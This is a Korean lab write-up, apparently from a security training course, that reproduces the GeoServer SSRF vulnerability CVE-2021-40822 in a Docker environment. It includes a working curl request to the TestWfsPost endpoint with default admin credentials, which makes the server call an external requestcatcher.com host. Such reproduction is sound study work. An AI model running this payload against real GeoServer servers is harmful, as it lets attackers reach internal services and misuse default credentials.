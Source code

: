 # CVE-2021-40822 (GeoServer SSRF)

> 화이트햇 스쿨 3기 - [이진석]

<br/>

### 요약

- GeoServer는 지리공간 데이터를 보고, 편집하고, 공유할 수 있는 기능을 제공하는 Java로 작성된 오픈 소스 소프트웨어 서버이다.
- GeoServer 2.19.3, 2.18.5, 2.17.6 이전 버전에는 WMS GetMap 요청에 서버 측 요청 위조(SSRF) 취약점이 존재하여 공격자는 GeoServer 서버를 통해 내부 또는 외부 서비스에 요청을 보낼 수 있다.

### 환경구성
- `docker compose up -d` 커맨드를 입력해 GeoServer 2.19.1 서버를 시작한다.
서버가 시작된 후 GeoServer의 기본 페이지를 찾아볼 수 있다. `http://your-ip:8080/geoserver`
<img width="500" alt="스크린샷 2025-04-20 오후 1 59 03" src="https://github.com/user-attachments/assets/aae25fd6-0f3c-435b-842f-ad079860f98c" />

- https://requestcatcher.com/ 또는 https://webhook.site/ 에서 공격을 받을 외부 사이트를 준비한다.
  
### exploit
- 취약점은 TestWfsPost엔드포인트에 존재하여 공격자는 이 url매개변수를 사용하여 서버가 임의의 URL로 요청을 보내도록 할 수 있다.
- 엔드포인트는 다음과 같은 여러 매개변수를 허용한다.
url: GeoServer가 요청을 보낼 대상 URL
body: 전송할 요청 본문으로 이 매개변수가 비어 있으면 GeoServer는 GET 요청을 전송하고, 값이 포함되어 있으면 GeoServer는 POST 요청을 전송한다.
username: 기본 인증을 위한 사용자 이름(선택 사항)
password: 기본 인증을 위한 비밀번호 (선택 사항)

<pre><code>curl -X POST http://127.0.0.1:8080/geoserver/TestWfsPost
  -H "Content-Type: application/x-www-form-urlencoded"        
  -H "Host: (your-name).requestcatcher.com"       
  -d "url=http://(your-name).requestcatcher.com/geoserver/../&body=test&username=admin&password=geoserver"</code></pre> 
  
`참고: 매개변수의 호스트는 요청의 헤더 url와 일치해야 합니다 . 그렇지 않으면 GeoServer에서 오류가 반환됩니다.`
<img width="500" alt="스크린샷 2025-04-20 오후 4 15 30" src="https://github.com/user-attachments/assets/87be97f0-b67a-44e5-9eb0-36234a82b097" />
<br/>

### 결과
GeoServer를 향한 요청에 대한 응답으로 외부사이트에 로그가 남아 GeoServer에서 온 test라는 텍스트가 반환되는 것을 볼 수 있습니다.
<br/>
